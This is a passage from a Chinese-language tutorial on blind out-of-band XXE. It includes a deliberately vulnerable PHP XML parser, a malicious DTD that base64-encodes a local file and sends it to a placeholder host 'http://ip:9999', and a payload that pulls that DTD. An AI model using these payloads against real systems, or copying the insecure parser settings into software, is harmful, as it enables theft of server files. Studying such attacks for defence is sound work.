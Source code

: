 感兴趣的童鞋可以分析一下整个调用过程，因为我在下面的例子中有分析一个类似的例子，于是出于篇幅考虑我这里就不分析了。

> **注意：**
>
> ==这里提一个点，如果是在 java 中 还有一个协议能代替 file 协议 ，那就是 netdoc ，使用方法我会在后面的分析 微信的 XXE
> 的时候顺带演示==

### **新的问题出现**

但是，你想想也知道，本身人家服务器上的 XML 就不是输出用的，一般都是用于配置或者在某些极端情况下利用其他漏洞能恰好实例化解析 XML 的类，==因此我们想要现实中利用这个漏洞就必须找到一个不依靠其回显的方法------外带==

### **新的解决方法**

==想要外带就必须能发起请求，那么什么地方能发起请求呢？ 很明显就是我们的外部实体定义的时候，其实光发起请求还不行，我们还得能把我们的数据传出去，而我们的数据本身也是一个对外的请求，也就是说，我们需要在请求中引用另一次请求的结果，分析下来只有我们的参数实体能做到了(并且根据规范，我们必须在一个 DTD 文件中才能完成“请求中引用另一次请求的结果”的要求)==

### **实验二：无回显读取本地敏感文件(Blind OOB XXE)**

**xml.php**

```php
<?php
libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
?>
```

**test.dtd**

```xml-dtd
<!-- 定义file参数实体，实体内容是php的伪协议，文件包含，文件内容用base64进行加密 -->
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!-- 定义int参数实体，实体内容是dtd实体，该实体又定义了一个send参数实体 -->
<!ENTITY % int "<!ENTITY % send SYSTEM 'http://ip:9999?p=%file;'>">
```

**2019.5.8 更新**

我发现上面这段代码由于解析的问题将 send 前面的 HTML 实体转化成了 % ,虽然我在下面做出了一些解释，但是因为存在复制粘贴代码的行为，因此我决定还是在这里用图片的形式再次展示一下我的代码

==实体的值中不能有 %，将 % 切换成 &#37，#37是%，&(引用)%，;(分号)是表名语句完成==

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20190508205142-077ed10c-7190-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190508205142-077ed10c-7190-1.png)

**payload：**

```xml-dtd
<!DOCTYPE convert [ 
    <!-- 定义remote参数实体，从远端拉取test.dtd实体 -->
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
    <!-- 引用remote实体，引用int实体，引用send实体 -->
%remote;%int;%send;
]>
<!-- 该处 -->
```
